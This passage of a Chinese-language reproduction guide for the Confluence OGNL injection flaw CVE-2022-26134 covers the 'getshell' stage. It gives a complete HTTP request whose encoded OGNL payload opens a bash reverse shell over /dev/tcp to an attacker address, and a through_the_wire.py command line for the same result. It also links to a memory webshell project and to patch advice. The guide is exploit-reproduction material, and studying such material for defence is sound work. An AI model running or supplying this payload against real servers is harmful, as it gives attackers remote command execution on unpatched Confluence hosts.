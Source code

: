 ![image](https://user-images.githubusercontent.com/84888757/172957145-fadd8852-c6ea-4ce2-beb8-c03be19ac025.png)

将对应命令改了，再进行String.fromCharCode encode

![image](https://user-images.githubusercontent.com/84888757/172957163-1abe7a91-e02f-42fa-a8f2-68daf9d20342.png)



再替换payload里相应的部分就好了

![image](https://user-images.githubusercontent.com/84888757/172957181-3b07f616-d1f8-40b4-af30-45889ebdcb3b.png)

### 4、getshell
#### 1）手工反弹shell
```
GET /%24%7BClass.forName(%22com.opensymphony.webwork.ServletActionContext%22).getMethod(%22getResponse%22,null).invoke(null,null).setHeader(%22ok%22,Class.forName(%22javax.script.ScriptEngineManager%22).newInstance().getEngineByName(%22nashorn%22).eval(%22new%20java.lang.ProcessBuilder().command('bash','-c','bash%20-i%20%3E&%20/dev/tcp/192.168.50.53/6666%200%3E&1').start()%22))%7D/ HTTP/1.1
Host: 192.168.50.227:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Length: 0


```

![image](https://user-images.githubusercontent.com/84888757/172957244-b9643702-c61e-4f14-b36e-5bd12482f895.png)

#### 2）工具反弹shell - through_the_wire.py
- 🔗 https://github.com/jbaines-r7/through_the_wire

```
python3 through_the_wire.py --rhost 靶机ip --rport 8090 --lhost 攻击方ip --protocol http:// --reverse-shell
```

![image](https://user-images.githubusercontent.com/84888757/172957533-281a6cc3-4678-4f84-8a8c-3dbd5539bf50.png)

# 0x05 参考链接
- [Atlassian Confluence 7.18.0 环境搭建及分析](https://unsafe.sh/go-114183.html)
- [Confluence(CVE-2022-26134) OGNL表达式注入RCE 漏洞复现](https://mp.weixin.qq.com/s?__biz=MzI2Mjc5NjQ0OA==&mid=2247484931&idx=1&sn=7e0ba8b91cf19196c192e3d8007baf70)
- [through_the_wire.py直接获取shell](https://github.com/jbaines-r7/through_the_wire)
- [内存马](https://github.com/BeichenDream/CVE-2022-26134-Godzilla-MEMSHELL)
- [修复建议](https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247496215&idx=1&sn=cd02fb80963e513ef0dcdd81dc9b9f9e&chksm=fe79d68fc90e5f998feb784a1c0c636c73e197f6856f03bdd6335f37826b76e3597c35ab96dd&mpshare=1&scene=23&srcid=0604glMroDj0s22KM1tQWoKX&sharer_sharetime=1654320757846&sharer_shareid=7e8b01431dedfcdb117a6eb003481bb5#rd)

